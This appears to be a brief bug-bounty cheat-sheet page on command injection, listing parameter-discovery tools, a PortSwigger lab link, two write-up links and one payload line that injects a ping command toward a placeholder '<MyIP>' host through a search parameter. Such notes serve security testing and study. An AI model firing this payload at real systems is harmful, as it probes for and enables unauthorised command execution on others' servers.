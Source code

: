 # Command Injection

## Tips
- bruteforce for php file or anything else, after that use paraminer or arjun or paramspider

## Payload
- /?search=%00{.exec|ping <MyIP>

## Lab
- [Portswigger Academy - Command Injection](https://portswigger.net/web-security/os-command-injection)

## Resource

## Writeup
- [A Story of an Epic Blind Remote Code Execution(RCE) ](https://www.p1boom.com/2021/11/a-story-of-epic-blind-remote-code.html)
- [Blind Command Injection - It hurts](https://shahjerry33.medium.com/blind-command-injection-it-hurts-9f396c1f63f2)
